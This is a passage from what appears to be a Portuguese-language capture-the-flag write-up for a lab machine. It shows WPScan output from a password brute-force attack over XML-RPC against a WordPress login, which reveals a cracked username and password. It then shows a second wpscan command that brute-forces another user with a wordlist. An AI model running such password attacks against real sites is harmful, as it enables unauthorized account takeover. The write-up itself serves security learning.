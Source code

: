 ```
[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:14 <=====================================> (137 / 137) 100.00% Time: 00:00:14

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / ER28-0652                                                                                      
All Found                                                                                                           
Progress Time: 00:00:41 <===============================                           > (12 / 22) 54.54%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Mar  1 16:16:49 2022
[+] Requests Done: 188
[+] Cached Requests: 6
[+] Data Sent: 54.814 KB
[+] Data Received: 1.501 MB
[+] Memory used: 251.918 MB
[+] Elapsed time: 00:01:10

```

Olhando no site, vi que havia outro usuário. Utilizei de novo o wpscan e este foi o resultado:

```
┌──(root㉿kali)-[/home/ellie/Downloads]
└─# wpscan --url http://10.10.228.141/wp-login.php?action=lostpassword --usernames  mich05654 --passwords fsocity-sorted.dic
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.228.141/wp-login.php?action=lostpassword/ [10.10.228.141]
[+] Started: Tue Mar  1 16:35:06 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Powered-By: PHP/5.5.29
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
```